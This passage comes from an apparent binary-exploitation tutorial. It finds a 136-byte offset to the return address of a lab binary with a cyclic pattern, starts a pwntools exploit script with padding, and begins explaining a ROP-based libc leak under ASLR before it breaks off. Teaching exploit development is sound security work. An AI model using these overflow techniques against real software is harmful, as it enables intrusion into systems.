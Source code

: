 In Ghidra, we see that the buffer is 112 bytes, but **remember**:

* After the buffer, the stack may contain saved RBP, stack canary (if any), and finally the return address.
* So we need to overflow beyond just 112 bytes.

A good trick is to round up — in this case, we try 200 bytes.

After crashing the program with the pattern, use:

```bash
pattern offset $rsp # Offset found at 136
```

This means we need to send 136 bytes to reach RIP.

>**Note**: When the program crashes, you look at the `$rsp` register, which points to the stack where the return address is stored. If `$rsp` contains 8 bytes from your pattern, you can say: "These 8 bytes appear at position X in the pattern."
So, X is the number of bytes you wrote before reaching the return address.




---

### 4.  Start writing the exploit

Open the exploit script with:

```bash
subl attempt.py
```

Start coding payload:

```python
#!/usr/bin/env python3
from pwn import *  # Easy and useful for exploit development

p = process("./vuln")  # Launch the vulnerable binary

offset = 136
junk = b"A" * offset  # Padding to reach the return address
```
---

### 5. Leaking a libc address using a ROP Chain


We enable ASLR (Address Space Layout Randomization) to add memory randomness:

```bash
gef➤  aslr on
```

Even with ASLR enabled, **function offsets remain the same**. If we leak the address of one function, we can calculate the others relative to it.


#### How to leak a libc address
To leak a libc address, use:
